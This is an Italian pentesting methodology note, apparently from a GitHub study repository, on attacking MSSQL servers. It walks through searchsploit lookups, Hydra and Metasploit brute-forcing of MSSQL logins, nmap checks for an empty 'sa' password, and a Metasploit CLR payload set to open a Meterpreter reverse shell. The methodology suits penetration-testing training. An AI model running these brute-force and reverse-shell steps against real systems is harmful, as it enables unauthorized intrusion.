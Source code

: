 
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce
Se sono richieste delle credenziali di accesso, possiamo tentare di eseguire un bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordsList> mssql <ip>
```

### Metasploit
```bash
use auxiliary/scanner/mssql/mssql_login
set RHOST <IP>
set USER_FILE <userList>
set PASS_FILE <passwordList>
set CREATESESSIONS true
run
```
se dovesse trovare delle credenziali, eseguirá automaticamente l'accesso e potremmo collegarci con `sessions -i <numeroSessione>`

---

## Exploiting
### mssql_clr_payload 
Se il servizio MSSQL ha queste caratteristiche: 
- Porta 1433 aperta `nmap -p 1433 <IP>`
- MSSQL è in ascolto `nmap -sU -p 1434 --script ms-sql-info <IP>` restituendo nome e versione sql server che sia compresa tra 2000/2005/2008/2012
- Login deboli dopo `nmap -p 1433 --script ms-sql-empty-password <IP>` dando come output `sa:<empty> => Login Success`

allora possiamo procedere con l'exploit
```bash
use exploit/windows/mssql/mssql_clr_payload
set RHOST <ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
exploit
```
cosí da ottenere una sesisone meterpeter sul target. 
